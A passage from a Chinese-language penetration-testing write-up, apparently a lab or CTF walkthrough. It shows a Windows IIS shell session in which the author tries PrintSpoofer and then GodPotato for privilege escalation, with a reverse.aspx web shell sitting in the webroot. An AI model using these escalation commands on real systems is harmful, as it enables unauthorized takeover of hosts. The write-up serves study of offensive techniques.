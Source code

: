 
但是没啥用处，尝试换一个工具[GodPotato](https://github.com/BeichenDream/GodPotato)：

> 有多个版本的，我试了一个2和4就出来了，如果都不行的话我未必会试一下3，哈哈哈

![image-20240408195320225](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404082007931.png)

```css
C:\inetpub\wwwroot>dir
dir
 El volumen de la unidad C no tiene etiqueta.
 El n�mero de serie del volumen es: 26CD-AE41

 Directorio de C:\inetpub\wwwroot

08/04/2024  13:42    <DIR>          .
08/04/2024  13:42    <DIR>          ..
08/10/2023  23:22    <DIR>          03-comming-soon
08/10/2023  21:46    <DIR>          aspnet_client
08/10/2023  23:14    <DIR>          common-js
08/10/2023  23:14    <DIR>          fonts
08/04/2024  08:55               320 hello.aspx
08/10/2023  23:14    <DIR>          images
08/10/2023  23:26             1.481 index.html
08/04/2024  13:42            27.136 PrintSpoofer.exe
08/04/2024  09:05            15.970 reverse.aspx
               4 archivos         44.907 bytes
               7 dirs  45.572.870.144 bytes libres

C:\inetpub\wwwroot>PrintSpoofer.exe -i -c cmd.exe
PrintSpoofer.exe -i -c cmd.exe

C:\inetpub\wwwroot>dir
dir
 El volumen de la unidad C no tiene etiqueta.
 El n�mero de serie del volumen es: 26CD-AE41

 Directorio de C:\inetpub\wwwroot

08/04/2024  13:47    <DIR>          .
08/04/2024  13:47    <DIR>          ..
08/10/2023  23:22    <DIR>          03-comming-soon
08/10/2023  21:46    <DIR>          aspnet_client
08/10/2023  23:14    <DIR>          common-js
08/10/2023  23:14    <DIR>          fonts
08/04/2024  13:47            57.344 GodPotato-NET2.exe
08/04/2024  08:55               320 hello.aspx
08/10/2023  23:14    <DIR>          images
08/10/2023  23:26             1.481 index.html
08/04/2024  13:42            27.136 PrintSpoofer.exe
08/04/2024  09:05            15.970 reverse.aspx
               5 archivos        102.251 bytes
               7 dirs  45.572.812.800 bytes libres

C:\inetpub\wwwroot>GodPotato-NET2.exe -cmd "cmd /c whoami"
GodPotato-NET2.exe -cmd "cmd /c whoami"

C:\" no se reconoce como un comando interno o externo,
programa o archivo por lotes ejecutable.

C:\inetpub\wwwroot>ls
ls
"ls" no se reconoce como un comando interno o externo,
programa o archivo por lotes ejecutable.

```